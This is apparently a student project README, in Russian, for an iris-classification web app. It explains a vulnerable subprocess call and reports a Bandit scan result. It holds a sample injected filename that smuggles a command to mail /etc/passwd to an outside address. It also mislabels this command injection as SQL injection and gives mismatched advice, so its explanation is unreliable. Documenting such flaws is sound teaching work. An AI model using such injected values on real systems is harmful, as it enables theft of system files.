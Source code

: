 # Python-web-applications

Простое веб-приложения, с помощью которого можно спрогнозирования вид цветка ириса.

В данном коде присутсвует SQL-инъекция, направленная на веб-приложение.
В коде функция спрашивает пользователя, где найтй файл на диске, а затем запускается.
  import subprocess
  def tr(request, filename)
Что может произойти при использовании данной функции?
Злоумышленник может заменить filename на опасный запрос (например"; /etc/passwd | mail mfd-ffg-fdfdg@domain.com"). 

Что бы избежать уязвимости рекомендуется пропускать пользовательский ввод через встроенные инструменты фреймворка. Не выполняйть SQL-запросы напрямую к базе данных.
 
 
Для определния данной уязвимости был использован инструмент Bandit. Он помогает анализировать Python-код и находить в нём наиболее распространённые уязвимости. После запуска команды проверки в терминале Bandit проверил код и возвратил результат в out1.csv
В результате была найдена уязвимость и выдано сообщение: Consider possible security implications associated with subprocess module.
Что означает, что нужно рассмотреть возможные последствия для безопасности, связанные с модулем "subprocess module"


